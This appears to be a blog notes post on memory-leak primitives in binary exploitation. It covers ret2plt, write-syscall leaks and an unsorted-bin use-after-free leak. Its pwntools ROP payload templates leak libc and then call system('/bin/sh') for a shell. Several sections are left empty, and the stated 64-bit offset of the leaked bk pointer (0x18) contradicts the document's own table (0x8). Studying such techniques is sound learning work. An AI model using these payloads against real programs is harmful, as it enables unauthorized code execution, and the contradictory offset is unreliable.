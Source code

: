 ```yaml
---
layout: post
title: Information Disclosure
description:
date: 2025-09-27
categories:
  - pwn
  - notes
  - info-leaks
tags:
  - info-leak
---
```

# Information/Memory Leaks In Binary Exploitation


## What is a memory leak?
A **information/memory leak** is any primitive in a binary that reveals bytes from the program's memory such as addresses, pointers, strings and even metadata. Information leaks help bypass security mitigations such as Address Space Layout Randomiation (ASLR), Position Independent Executable (PIE), etc. by giving you an pointer that you can use to compute a base address such libc, PIE, heap, etc. base addresses

## Why do they matter?

- The can be used to bypass exploit mitigations that depend on randomization such as ASLR or stack canaries.
- They can disclose information meant to be secrets in memory.

## Common leak Primitives

### Uninitialized Data Access (UDA)

When a program uses a local variable that has not been explicitly initialized, it may contain data left over from previous stack frames. If this initialized variable is used and printed to the user, it can leak information like memory addresses or user data.
### Format String Read

### Return Oriented Programming (ROP)

#### Ret2plt
The goal of this technique is to call `puts` or `printf` with the Global Offset Table (GOT) entry of a libc function to print its resolved address. The leaked address/pointer can be used to compute `libc_base` address. 

Process:
1. Overflow into saved return address.
2. Call `puts@plt` or `printf@plt` with GOT entry.
3. Return to main.
4. Use leak to compute `libc_base` address
	- e.g. lets say we leaked the GOT entry for `puts` then `libc_base = leaked_address - libc.symbols['puts]`
5. Use leak to pwn the binary.

Payload Example (pwntools)

```python
payload = flat(
	cyclic(offset), # offset = overflow offset to saved return address
	pop_rdi, # 'pop rdi; ret' gadget
	puts_got, # puts GOT entry | into rdi register
	puts_plt, # call puts 
	main_addr, # return to main to send second stage
)
# recv leak and unpack
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
# compute libc base
libc.address = leak - libc.symbols['puts']
# from here use libc base to get shell
second_stage_payload = flat(
	cyclic(offset),
	pop_rdi,
	next(libc.search(b"/bin/sh")),
	libc.symbols['system']
)
# send second stage and get shell
```

#### Write Syscall
If a binary exports a `write` or has the `syscall` gadget, you can directly write raw memory to standard output `stdout`. This is useful when RELRO prevents GOT modification or when you want to avoid PLT resolution issues.

This technique needs the following gadgets:
- `pop rdi` -> 1 (stdout)
- `pop rsi` -> target address
- `pop rdx` -> size

If the gadgets are not available you can use the [ret2csu](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2csu) technique to populate those registers.

Process:
- Overflow into saved return address
- populate the registers.
- call `write`. If `write` is not exported the populate the `rax/eax` registers with correct system call number and call the `syscall` gadget.

Example

```python
# if write plt is available
payload = flat(
	cyclic(offset), #  offset = overflow offset to saved return address
	pop_rdi_rsi_rdx, # `pop rdi; pop rsi; pop rdx` gadgets
	0x1, #rdi
	target_addr, #rsi
	0x20, # rdx
	write_plt 
)
# or
payload = flat(
	cyclic(offset), #  offset = overflow offset to saved return address
	pop_rdi_rsi_rdx, # `pop rdi; pop rsi; pop rdx` gadgets
	0x1, #rdi
	target_addr, #rsi
	0x20, # rdx
	pop_rax,
	syscall_write_num,
	syscall_gadget
)
```

### Use-After-Free

#### Libc leak via unsorted bin

A common technique to get libc leak is to free a big chunk (larger than 0x400 bytes) so it gets into the unsorted bin. The unsorted bin is a doubly linked list and its list head is stored in the libc's data section, when we free a chunk into the unsorted bin for the first time, its backward pointer (`bk`) then points into the libc, at a known offset. If we can leak this pointer, than we can compute the base address of libc.

**What If we do not control the size of the heap memory allocations?**

A double free vulnerability would be used to get an chunk that overlaps with another chunk's metadata, this way we can modify the chunk's metadata to make the allocator think it is a big chunk and place it in the unsorted bin upon freeing it.

A small problem is that when a chunk is allocated if it borders the top chunk of the heap, it is placed back into the top chunk when we free it. We can prevent this by placing a another chunk (often called a guard chunk) between our big chunk and the top chunk without freeing it, this prevent the allocator from returning the big chunk to the top of the heap, thus placing it in a bin.

free chunk structure

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```

The address/pointer that will help compute the libc base address is at offset :

 **32 bit**
  
```c
// metadata
prev_size; // -0x8
size; // -0x4
// end metadata
fd; // 0x0
bk; // 0x4
fd_nextsize; // 0x8
bk_nextsize; // 0xc
```

At offset `0xc`

**64 bit**
```c
prev_size; // -0x10
size; // -0x8
// end metadata
fd; // 0x0
bk; // 0x8
fd_nextsize; // 0x10
bk_nextsize; // 0x18
```

At offset `0x18`

Steps:
- Allocate 9 chunks 
	- chunks from 1 to 7 will be used to fill tcache
	- chunk 8 will be placed in unsorted bin when freed
	- chunk 9 prevents top chunk consolidation
- Free the first 8 chunks
- Use a use after free of the chunk that is in the unsorted bin to leak the `bk` pointer which will be a libc addres
- Use the libc address to calculate libc base address.


Example

```c

```


### Stack/Heap Over-read
- 

### Out-Of-Bounds Read
- 